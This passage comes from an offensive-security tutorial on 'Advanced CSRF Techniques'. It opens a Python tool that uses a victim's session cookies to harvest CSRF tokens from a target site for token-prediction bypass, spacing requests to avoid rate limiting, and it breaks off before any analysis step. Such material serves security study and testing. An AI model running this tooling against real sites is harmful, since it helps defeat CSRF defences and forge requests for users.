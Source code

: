 ## 🚀 Advanced CSRF Techniques

### 1. 🛡️ CSRF Token Bypass Methods

#### Method 1: Token Prediction
```python
#!/usr/bin/env python3
"""
CSRF Token Analysis Tool

Author: LakshmiKanthanK(letchupkt)
Portfolio: https://letchupkt.vgrow.tech
"""

import requests
import re
import hashlib
import time
from collections import Counter

class CSRFTokenAnalyzer:
    def __init__(self, target_url, session_cookies):
        self.target_url = target_url
        self.session = requests.Session()
        
        for cookie_name, cookie_value in session_cookies.items():
            self.session.cookies.set(cookie_name, cookie_value)
        
        self.tokens = []
    
    def collect_tokens(self, num_tokens=50):
        """Collect multiple CSRF tokens for analysis"""
        print(f"[+] Collecting {num_tokens} CSRF tokens...")
        
        for i in range(num_tokens):
            try:
                response = self.session.get(self.target_url)
                
                # Extract CSRF token using regex
                token_patterns = [
                    r'name="csrf_token" value="([^"]+)"',
                    r'name="_token" value="([^"]+)"',
                    r'name="authenticity_token" value="([^"]+)"'
                ]
                
                for pattern in token_patterns:
                    match = re.search(pattern, response.text)
                    if match:
                        token = match.group(1)
                        self.tokens.append({
                            'token': token,
                            'timestamp': time.time(),
                            'length': len(token)
                        })
                        print(f"[+] Token {i+1}: {token[:20]}...")
                        break
                
                time.sleep(1)  # Avoid rate limiting
                
            except Exception as e:
                print(f"[-] Error collecting token {i+1}: {e}")
    
```
